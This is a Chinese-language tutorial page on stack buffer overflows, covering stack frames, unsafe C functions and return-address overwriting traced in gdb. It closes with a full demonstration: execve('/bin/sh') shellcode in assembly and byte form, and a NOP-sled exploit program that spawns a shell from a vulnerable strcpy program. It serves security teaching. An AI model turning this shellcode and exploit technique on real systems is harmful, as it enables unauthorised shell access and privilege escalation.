> - 将上述程序编译运行，使用不同命令进行运行，即可知 `argv[0]` 为程序名称或者文件路径，并占用一个参数位置。

```term
$ gcc -g -o main main.c
$ ./main c
c
$ ./main
Error.
$ ./main c 1
Error.
```

### 函数调用

<p align="center">
  </img>
</p>

#### 函数调用的步骤

<p align="center">
  </img>
  </img>
  </img>
  </img>
</p>

#### 栈溢出

<p align="center">
  </img>
</p>

- [x] 修改相邻变量甚至返回地址

<p align="center">
  </img>
</p>

> - 如果用户增加输入字符串的长度，将会超过password数组的边界，从而覆盖前栈帧EBP，甚至是覆盖返回地址RET。当返回地址RET被覆盖后，将会造成进程执行跳转的异常。

## 栈溢出漏洞

### 溢出攻击原理

- [x] 向缓冲区写入超过缓冲区长度的内容，造成缓冲区溢出，破坏程序的堆栈，使程序转而执行其他的指令，达到攻击的目的
- [x] 原因：程序中缺少错误检测

```C
#include <string.h>

void func(char *str) {
  char buf[16];
  strcpy( buf, str);
}

int main(){
  char *str = "This is definitelt longer than 12";
  func(str);
  return 1;
}
```

> - 如果str的内容多于16个非0字符，就会造成buf的溢出，使程序出错
> - `栈` 由 `高端地址` 向 `低端地址` 生长
> - `缓冲区中的数据` 依然是从 `低端地址` 向 `高端地址` 生长
> - 当复制数据到 `buffer` 时, 要复制的数据从 `buffer[0]` 的位置开始, 直到 `buffer[11]` 结束。如果仍有未复制完的数据,  `strcpy()` 函数将继续复制数据到 `buffer` 数组以上的区域, 如 `buffer[12]、buffer[13]` , 以此类推

<p align="center">
  </img>
</p>

- [x] 类似函数有 <kbd style="color:purple;">strcat、sprintf、vsprintf、gets、scanf</kbd> 等
- [x] 一般溢出会造成程序读/写或执行非法内存的数据，引发 `segmentation fault` 异常退出
- [x] 如果在一个<span style="color:blue;">suid</span>程序中精心构造内容，可以有目的的执行程序，如/bin/sh，得到root权限
- [x] 对于使用C语言开发的软件，缓冲区溢出大部分是 `数组越界` 或 `指针非法引用` 造成的
- [x] 现存的软件中可能存在缓冲区溢出攻击，因此缓冲区溢出攻击短期内不可能杜绝

#### 缓冲区溢出攻击的要素

- [x] 在进程的地址空间安排适当的代码( `shellcode` )
- [x] 通过适当的初始化寄存器和内存，跳转到以上代码段执行

<!-- tabs:start -->

##### **安排代码的方法**

<!-- tabs:start -->

###### **利用进程中存在的代码**

- 传递一个适当的参数
- 如程序中有exec(arg)，只要把arg指向“/bin/sh”就可以了

###### **植入法**

- 把指令序列放到缓冲区中
- 堆、栈、数据段都可以存放攻击代码，最常见的是利用栈

<!-- tabs:end -->

##### **控制程序转移到攻击代码的方法**

<!-- tabs:start -->

###### **利用栈帧**

- [x] 溢出栈中的局部变量，使返回地址指向攻击代码，栈溢出攻击Stack Smashing Attack

<p align="center">
  </img>
</p>

###### **函数指针**

- [x] 如果定义有函数指针，溢出函数指针前面的缓冲区，修改函数指针的内容

<p align="center">
  </img>
</p>

###### **长跳转缓冲区**

- [x] setjmp/longjmp语句
  - 实现非本地跳转(<span style="color:blue;">在栈上跳过若干调用帧</span>)
    - 从一个深层嵌套的函数调用中直接返回，不经过正常的“调用-返回”序列
    - 使一个信号处理程序转移到一个特殊的代码位置，sigsetjmp/siglongjmp
  - 函数原型：
    - int setjmp(jmp_buf env);
      > - 返回：函数直接调用则为0；若从longjmp返回则为非0
    - void longjmp(jmp_buf env, int retval );  retval值非0
  - setjmp函数在env缓冲区中保存当前栈的内容，以供后面longjmp使用，并返回0。longjmp函数从env缓冲区中恢复栈的内容，然后触发一个从最近一次初始化env的setjmp调用的返回。然后setjmp返回，并带有非0的返回值retval

- [x] 覆盖setjmp/longjmp的缓冲区内容，longjmp就可以跳转到攻击者的代码

<!-- tabs:end -->

<!-- tabs:end -->

#### 常见的攻击技术

- [x] 一个字符串中完成 `代码植入` 和 `跳转`
  - 一般修改栈帧

<p align="center">
  </img>
</p>

- [x] 代码植入和缓冲区溢出不一定要在在一次动作内完成
  - 攻击者可以先在一个缓冲区内 `放置代码` ，这是不能溢出的缓冲区；然后，攻击者通过溢出另外一个缓冲区来<span style="color:blue;">改写程序转移的指针</span>
  - 这种方法一般用来解决可供溢出的缓冲区不够大(不能放下全部的攻击代码)的情况

- [x] 如果攻击者试图使用已经常驻的代码而不是从外部植入代码，他们通常必须<span style="color:blue;">把代码作为参数调用</span>
  - 例如，在libc(几乎所有的C程序都要它来连接)中的部分代码段会执行“exec(arg)”，其中arg就是参数。攻击者首先使用缓冲区溢出改变程序的参数arg，然后利用另一个缓冲区溢出使程序指针指向libc中的特定的代码段，此代码段中包括exec(arg)

### 栈溢出的例子

<!-- tabs:start -->

#### **栈溢出的例子1**

```C
#include <stdio.h>

int main(){
  char a[4];
  gets(a);
  puts(a);
  return 0;
}
```

> - 编译时出现如下信息：

```term
$ gcc -g -o main main.c
/tmp/cczLEaUN.o: In function `main`:
/home/example/main.c:3:warning: the `gets` function is dangerous and should not be used. 
```

> - 不理会该信息，执行程序 `./main` ，有以下结果：

```term
$ ./main
## $ aaaa
aaaa
$ ./main
## $ aaaaaa
aaaaaa
$ ./main
## $ aaaaaaaaaaaaaaa
aaaaaaaaaaaaaaa
Segmentation fault
```

> - 输入较多字符时就会造成 `Segmentation fault` 。

<!-- chat:start -->

<!-- title: 理解 -->

#### **Tips**

覆盖<span style="color:blue;">栈底内容</span>，不会报错；覆盖<span style="color:blue;">返回指针</span>，才会报错，此时，栈溢出了

<!-- chat:end -->

> 注：有些系统在覆盖栈底内容时，就已经报错了

<p align="center">
  </img>
</p>

#### **栈溢出的例子2**

```C
#include <stdio.h>

void function(int a, int b, int c){
  char buffer1[5];
  char buffer2[10];
  int *ret;
  ret = buffer1 + 12;
  (*ret) += 8;
}

int main(){
  int x;
  x = 0;
  function(1, 2, 3);
  x = 1;
  printf("%d\n", x);
  return 0;
}
```

- [x] 在子函数function中，栈分配buffer1，然后定义一个指向int型变量的指针ret

- [x] 在栈中，buffer1虽然只有5个字节，但是由于对齐分配，实际上分配了8个字节，所以，<span style="color:red;">buffer1+8就是ebp，buffer1+12存储的就应该是返回地址</span>

- [x] <span style="color:red;">将该返回地址的内容加8，则会跳过语句“x = 1;”，因此，打印结果应该是0</span>

> - 为便于理解，在此处画出一个栈图，如下所示(该图有点小问题，也就是function返回地址存储地址不是和x = 1语句紧挨着，但是其值+8即可得到printf的地址，同时本图为了简单也没有画buffer2，其在buffer1和ret之间)。

<p align="center">
  </img>
</p>

<!-- tabs:start -->

##### **在Redhat 6.2上测试**

```term
$ gcc -g -o ovr_ret ovr_ret.c 
ovr_ret.c: In function `function':
ovr_ret.c:6: warning: assignment from incompatible pointer type
$ ./ovr_ret 
0
```

> - 由此可见，分析正确，函数的返回地址确实被改写，程序并没有执行语句“x=1;”，程序的打印结果为0，通过改写函数返回地址，即可定制程序流程。

##### **在Debian 2.4.18上测试**

```term
$ gcc -g -o ovr_ret ovr_ret.c 
ovr_ret.c: In function `function':
ovr_ret.c:6: warning: assignment from incompatible pointer type
$ ./ovr_ret 
1
```

- [x] 为了看为什么结果不一致，此时引入 <kbd>gdb</kbd> 进行调试。

- [x] gdb
  -  file  装入想要调试的可执行文件
  -  kill  终止正在调试的程序
  -  list  列出产生执行文件的源代码的一部分
  -  next  执行一行源代码但不进入函数内部
  -  step  执行一行源代码而且进入函数内部
  -  run  执行当前被调试的程序
  -  quit  终止 gdb
  -  watch  使你能监视一个变量的值而不管它何时被改变
  -  break  在代码里设置断点, 这将使程序执行到这里时被挂起
  -  make  使你能不退出gdb 就可以重新产生可执行文件
  -  shell  使你能不离开gdb 就执行UNIX shell 命令
  -  info all
    - ebp  栈底
    - esp  栈顶
    - eip  CPU下次要执行的指令的地址
    - esi  寻址数据段DS 

> 使用 <kbd style="color:green">gdb</kbd> 进行调试如下。

```term
$ gdb ovr_ret
## (gdb) $ b 6
Breakpoint 1 at 0x804838a: file ovr_ret.c, line 6.
## (gdb) $ r
Starting program: /home/dayin/ovr_ret 

Breakpoint 1, function (a=1, b=2, c=3) at ovr_ret.c:6
6          ret = buffer1 + 12;
## (gdb) $ x $esp                     
0xbffffcf0:     0x4014a870
## (gdb) $ x $ebp
0xbffffd28:     0xbffffd48
## (gdb) $ x buffer1
0xbffffd10:     0x08048400
// 此处可以推出 $ebp– buffer1 = 24
// 由于根据结构而言 retip = $ebp + 4，也就是ebp的下一个字长为函数返回地址
// 推导出
// retip – buffer1 = 28
## (gdb) $ x buffer2
0xbffffd00:     0xbffffdac
## (gdb) $ x/20 $esp
// 此处是指从esp开始的20个字长(4字节)的内容，第一列表示从这个地址开始的连续四个字长的内容
0xbffffcf0:     0x4014a870      0xbffffd04      0x40030c85      0x4014a880
0xbffffd00:     0xbffffdac      0xbffffd24      0x40030d3f      0x40016ca0
0xbffffd10:     0x08048400      0x08049604      0xbffffd28      0x0804828d
0xbffffd20:     0x40017074      0x40017af0      0xbffffd48      0x080483d5 retip(由于ebp在地址0xbffffd28值为0xbffffd48，所以其下一个字长地址即为retip，值为0x080483d5)
0xbffffd30:     0x00000001      0x00000002      0x00000003      0x4014a880
// 进行反编译
## (gdb) $ disas main
Dump of assembler code for function main:
0x080483a2 <main+0>:    push   %ebp
0x080483a3 <main+1>:    mov %esp,%ebp
0x080483a5 <main+3>:    sub    $0x18,%esp
0x080483a8 <main+6>:    and    $0xfffffff0,%esp
0x080483ab <main+9>:    mov $0x0,%eax
0x080483b0 <main+14>:   sub    %eax,%esp
0x080483b2 <main+16>:   movl $0x0,0xfffffffc(%ebp)
0x080483b9 <main+23>:   movl $0x3,0x8(%esp)
0x080483c1 <main+31>:   movl $0x2,0x4(%esp)
0x080483c9 <main+39>:   movl $0x1,(%esp)
0x080483d0 <main+46>:   call   0x8048384 <function>
0x080483d5 <main+51>:   movl $0x1,0xfffffffc(%ebp) // 此处根据上方的retip值为0x080483d5可知，此处为retip
// 由于函数返回地址也就是直接返回到函数结束后下一条命令的位置，且上述汇编代码将0x1的值赋值给一个变量，可知其为x = 1;代码地址
0x080483dc <main+58>:   mov 0xfffffffc(%ebp),%eax // 那么此处就是printf语句地址
0x080483df <main+61>:   mov %eax,0x4(%esp)
0x080483e3 <main+65>:   movl $0x8048514,(%esp)
0x080483ea <main+72>:   call   0x80482b0 <_init+56>
0x080483ef <main+77>:   leave  
0x080483f0 <main+78>:   ret    
End of assembler dump.
// 通过上面可推理出需要跳过x = 1;直接跳到printf，则需要把函数返回地址从地址0x080483d5改到0x080483dc
// new retip – old retip = 7 
```

- [x] 修改后的程序

```C
#include <stdio.h>

void function(int a, int b, int c) {
  char buffer1[5];
  char buffer2[10];
  int *ret;
  ret = buffer1 + 28;
  (*ret) += 7;
}

int main() {
  int x;
  x = 0;
  function(1,2,3);
  x = 1;
  printf("%d\n",x);
  return 0;
}
```

> 运行结果如下：

```term
$ gcc -g -o ovr_ret_new ovr_ret_new.c 
ovr_ret_new.c: In function `function':
ovr_ret_new.c:6: warning: assignment from incompatible pointer type
$ ./ovr_ret_new 
0
```

- [x] 函数调用情况

```term
## (gdb) $ disas main
Dump of assembler code for function main:
…
0x080483b9 <main+23>:   movl $0x3,0x8(%esp)
0x080483c1 <main+31>:   movl $0x2,0x4(%esp)
0x080483c9 <main+39>:   movl $0x1,(%esp) // 分配栈帧
0x080483d0 <main+46>:   call   0x8048384 <function> // 函数调用
0x080483d5 <main+51>:   movl $0x1,0xfffffffc(%ebp) // 函数返回地址
…
End of assembler dump.
## (gdb) $ disas function
Dump of assembler code for function function:
0x08048384 <function+0>:       push   %ebp // 在函数调用地址
0x08048385 <function+1>:       mov  %esp, %ebp // 将原来函数的esp赋值给ebp
0x08048387 <function+3>:       sub  $0x38, %esp // 原有esp减去一个值也就是分配一个新的栈帧
…
0x080483a1 <function+29>:      ret     
End of assembler dump.
```

- [x] 函数调用所建立的栈帧包含(以IA32为例)：
  - 函数的返回地址
  - 调用函数的栈帧信息，即栈顶和栈底
  - 为函数的局部变量分配的空间
  - 为被调用函数的参数分配的空间

```term
$ gdb ovr_ret_new
## (gdb) $ b 6
Breakpoint 1 at 0x804838a: file ovr_ret_new.c, line 6.
## (gdb) $ r
Starting program: /home/example/ovr_ret_new 
Breakpoint 1, function (a=1, b=2, c=3) at ovr_ret_new.c:6
6      ret = buffer1 + 28;
## (gdb) $ x $esp                     
0xbffffcf0:     0x4014a870
## (gdb) $ x $ebp
0xbffffd28:     0xbffffd48
## (gdb) $ x buffer1
0xbffffd10:     0x08048400
## (gdb) $ x buffer2
0xbffffd00:     0xbffffdac
## (gdb) $ x/20 $esp
0xbffffce0:     0x4014a870      0xbffffcf4      0x40030c85      0x4014a880
0xbffffcf0:     0xbffffd9c      0xbffffd14      0x40030d3f      0x40016ca0
0xbffffd00:     0x08048400      0x08049604      0xbffffd18      0x0804828d
0xbffffd10:     0x40017074      0x40017af0      0xbffffd38      0x080483d5
0xbffffd20:     0x00000001      0x00000002      0x00000003      0x4014a880
```

- [x] 函数调用所建立的栈帧包含(以IA32为例)：
  - 为被调用函数的参数分配的空间 0x00000001   0x00000002  0x00000003
  - 函数的返回地址 0x080483d5
  - 调用函数的栈帧信息，即栈顶和栈底 0x4014a870 0xbffffd38
  - 为函数的局部变量分配的空间 buffer2:16(buffer1地址-buffer2地址)  buffer1:24(ebp地址-buffer1地址)

<!-- tabs:end -->

<!-- tabs:end -->

### 一个溢出和攻击的演示

- [x] 缓冲区溢出攻击
- [x] Shellcode解析
- [x] 攻击程序
- [x] 运行平台
  - Linux debian 2.4.18-bf2.4 #1 Son Apr 14 09:53:28 CEST 2002 i686 unknown
  - Gcc 3.3.5

<!-- tabs:start -->

#### **缺陷程序**

```C
// 命名为hello.c
#include <stdio.h>
#include <string.h>

void SayHello(char* name){
  char tmpName[60];

  // buffer overflow
  strcpy(tmpName, name);

  printf("Hello %s\n", tmpName);
}

int main(int argc, char** argv){
  if (argc != 2) {
    printf("Usage: hello <name>.\n");
    return 1;
  }
  SayHello(argv[1]);
  return 0;
}
```

<!-- tabs:start -->

##### **运行情况如下**

```term
$ gcc–g –o hello hello.c
$ ./hello `perl-e 'print "A" x 60'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./hello `perl-e 'print "A" x 71'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./hello `perl-e 'print "A" x 72'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

##### **调试情况如下**

```term
$ gdb hello
## (gdb) $ l
## (gdb) $ b 9
## (gdb) $ r `perl -e 'print "A" x 72'`
## (gdb) $ x/8 $esp
0xbffffc90:     0x40090fd0      0xbffffe2f      0x4008978e      0x4014a880
0xbffffca0:     0x4014a870      0xbffffcb4      0x40030c85      0x4014a880
## (gdb) $ x tmpName
0xbffffca0:     0x4014a870
## (gdb) $ x/4 $ebp
0xbffffce8:     0xbffffcf8      0x0804842c      0xbffffe41      0xbffffd54
// 返回地址内容：0x0804842c(同样的由于retip紧跟ebp后可得到)
// $ebp内容：0xbffffcf8
// $ebp – tmpName = 0xbffffce8 – 0xbffffca0 = 72
## (gdb) $ disas main
Dump of assembler code for function main:
0x080483f1 <main+0>:    push   %ebp
0x080483f2 <main+1>:    mov    %esp,%ebp
0x080483f4 <main+3>:    sub    $0x8,%esp
0x080483f7 <main+6>:    and    $0xfffffff0,%esp
0x080483fa <main+9>:    mov    $0x0,%eax
0x080483ff <main+14>:   sub    %eax,%esp
0x08048401 <main+16>:   cmpl   $0x2,0x8(%ebp)
0x08048405 <main+20>:   je     0x804841c <main+43>
0x08048407 <main+22>:   movl   $0x804855e,(%esp)
0x0804840e <main+29>:   call   0x80482d8 <_init+56>
0x08048413 <main+34>:   movl   $0x1,0xfffffffc(%ebp)
0x0804841a <main+41>:   jmp    0x8048433 <main+66>
0x0804841c <main+43>:   mov    0xc(%ebp),%eax
0x0804841f <main+46>:   add    $0x4,%eax
0x08048422 <main+49>:   mov    (%eax),%eax
0x08048424 <main+51>:   mov    %eax,(%esp)
0x08048427 <main+54>:   call   0x80483c4 <SayHello> // 返回地址，由上可得
0x0804842c <main+59>:   movl   $0x0,0xfffffffc(%ebp)
0x08048433 <main+66>:   mov    0xfffffffc(%ebp),%eax
0x08048436 <main+69>:   leave  
0x08048437 <main+70>:   ret    
End of assembler dump.
## (gdb) $ x/24 $esp
0xbffffc90:     0x40090fd0      0xbffffe2f      0x4008978e      0x4014a880
0xbffffca0:     0x4014a870      0xbffffcb4      0x40030c85      0x4014a880
0xbffffcb0:     0xbffffd60      0xbffffcd4      0x40030d3f      0x40016ca0
0xbffffcc0:     0x08048440      0x08049660      0xbffffcd8      0x080482b5
0xbffffcd0:     0x40017074      0x40017af0      0xbffffcf8      0x0804845b
0xbffffce0:     0x4014a880      0x080484a0      0xbffffcf8      0x0804842c
## (gdb) $ n //执行“strcpy(tmpName, name);”，因为断点在此步，n即单步运行此步
11          printf("Hello %s\n", tmpName);
## (gdb) $ x/24 $esp
0xbffffc90:     0xbffffca0      0xbffffe41      0x4008978e      0x4014a880
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0xbffffc00      0x0804842c
// $ebp内容被覆盖(原有的倒数第一行倒数第二个0xbffffcf8也就是ebp的内容被修改为0xbffffc00)
// Segmentation fault
```

<!-- tabs:end -->

#### **如果精心选择数据**

<p align="center">
  </img>
</p>

- [x] 如何选择这些数据？
  - 几个问题：
    - SayHello函数局部变量区大小？
    - NNNNNNNN如何确定？
    - Our-codes该怎样写
    - 输入缓冲区内容不能包含0

<!-- tabs:start -->

##### **局部变量区问题**

<p align="center">
  </img>
</p>

##### **代码起始地址如何确定？**

<p align="center">
  </img>
</p>

- [x] 问题已转化为用ESP加上某一偏移
  - 该偏移<span style="color:blue;">不需要精确</span>

- [x] ESP如何确定呢
  - 用同样选项，插入一段代码，重新编译
  - 使用调试工具跟踪应用程序
  - 编一小程序，打印出运行时栈顶位置
    - <span style="color:blue;">在同样环境下，不同进程之间栈位置距离不会太远</span>

- [x] 为什么偏移不需要精确？

<p align="center">
  </img>
</p>

<!-- chat:start -->

<!-- title:理解 -->

#### **Tips**

如果一直没有找到有效代码，其就会一直把无效地址操作出栈，直到命中真实代码。 

<!-- chat:end -->

##### **Shellcode编写**

- [x] execve - execute program
- [x] <kbd style="color:purple">int execve(const char *filename, char *const argv [], char *const envp[]);</kbd>
- [x] <kbd style="color:purple">execve("pointer to string /bin/sh", "pointer to /bin/sh", "pointer to NULL");</kbd>

```shell
jmp short callit              ; jmp trick as explained above
doit:
pop         esi ;             ; esi now represents the location of our string
xor         eax, eax          ; make eax 0
mov byte    [esi + 7], al     ; terminate /bin/sh 
lea         ebx, [esi]        ; get the adress of /bin/sh and put it in register ebx 
mov long    [esi + 8], ebx    ; put the value of ebx (the address of /bin/sh) in AAAA ([esi +8]) 
mov long    [esi + 12], eax   ; put NULL in BBBB (remember xor eax, eax) 
mov byte    al, 0x0b          ; Execution time! we use syscall 0x0b which represents execve
mov         ebx, esi          ; argument one... ratatata /bin/sh
lea         ecx, [esi + 8]    ; argument two... ratatata our pointer to /bin/sh
lea         edx, [esi + 12]   ; argument three... ratataa our pointer to NULL 
int         0x80 

callit:     
call        doit              ; part of the jmp trick to get the location of db
db          '/bin/sh#AAAABBBB'
```

- [x] Shellcode二进制形式

```c
// 其以/bin/sh#AAAABBBB结尾前面为乱码 
char shellcode[] =
 "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
 "\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
 "\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41"
 "\x42\x42\x42\x42";
```

<!-- tabs:end -->

#### **完整的攻击hello的程序**

```c
//  hello2.c
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
unsigned char shell_code[] =
"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
"\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
"\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41"
"\x42\x42\x42\x42";

#define DEFAULT_OFFSET  0
#define BUFFER_SIZE 1024

unsigned long get_esp() {
    unsigned long esp;
    __asm__("movl %%esp, %0" : "=r"(esp));
    return esp;
}

int main(int argc, char** argv)
{
  char* buff;
  char* ptr;
  unsigned long* addr_ptr;
  unsigned long esp;
  int i, ofs;
  if (argc == 1)
    ofs = DEFAULT_OFFSET;
  else
    ofs = atoi(argv[1]);

  ptr = buff = malloc(4 * BUFFER_SIZE);

  /* Fill in with addresses */
  addr_ptr = (unsigned long*)ptr;
  esp = get_esp();
  printf("ESP = %08x\n", esp);
  for (i = 0; i < 100; i++)
    *(addr_ptr++) = esp + ofs;

  /* Fill the start of shell buffer with NOPs */
  ptr = (char*)addr_ptr;
  memset(ptr,0x90,BUFFER_SIZE-strlen(shell_code));
  ptr += BUFFER_SIZE - strlen(shell_code);

  /* And then the shell code */
  memcpy(ptr, shell_code, strlen(shell_code));
  ptr += strlen(shell_code);

  *ptr = 0;

  execl("./hello", "hello", buff, NULL);

  return 0;  
}
```

<!-- tabs:start -->

##### **运行情况**

```term
$ gcc–g –o hello2 hello2.c
$ ./hello2
ESP = bffffd18
Hello 
ýÿ¿ ýÿ¿ ýÿ¿ ý¿ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ýÿ¿ ý
...   //省略
...  //省略
ë^1ÀˆF‰‰F
...  //省略
‰óV
...  //省略
Í€èáÿÿÿ/bin/sh#AAAABBBB
sh-2.05b$
```

##### **调试情况**

```term
$ gdb hello
## (gdb) $ b 52
Breakpoint 1 at 0x80485e5: file hello2.c, line 52.
## (gdb) $ r
Starting program: /home/dayin/hello
ESP = bffffd18
Breakpoint 1, main (argc=1, argv=0xbffffda4) at hello2.c:52
52execl("./hello", "hello", buff, NULL);
(gdb) x/360 buff

0x80498f8:   0xbffffd18   0xbffffd18 0xbffffd18 0xbffffd18
…
0x8049a78:   0xbffffd18   0xbffffd18 0xbffffd18 0xbffffd18
// 上面为粗略代码起始地址

0x8049a88:   0x90909090   0x90909090 0x90909090 0x90909090
…
0x8049e48:   0x90909090   0x90909090 0x90909090 0xeb909090
// 上面为NOP区域

0x8049e58:   0xc0315e1a   0x8d074688   0x085e891e   0xb00c4689
0x8049e68:   0x8df3890b   0x568d084e   0xe880cd0c   0xffffffe1
0x8049e78:   0x6e69622f   0x2368732f   0x41414141   0x42424242
0x8049e88:   0x00000000   0x00000000 0x00000000 0x00000000
// 以上为shellcode
```

<!-- tabs:end -->

<!-- tabs:end -->

#### 插曲：strncpyVS. memcpy

- [x] <kbd>char *strncpy(char *dest, char *src, int n)</kbd>
  - 把src所指向的字符串中以src地址开始的前n个字节复制到dest所指的数组中，并返回dest
  - strncpy_百度百科

- [x] <kbd>void *memcpy(void *dest, const void *src, size_t n)</kbd>
  - 从源src所指的内存地址的起始位置开始拷贝n个字节到目标dest所指的内存地址的起始位置中
  - memcpy_百度百科

## 堆溢出漏洞
## 整数溢出漏洞
## 格式化字符串漏洞
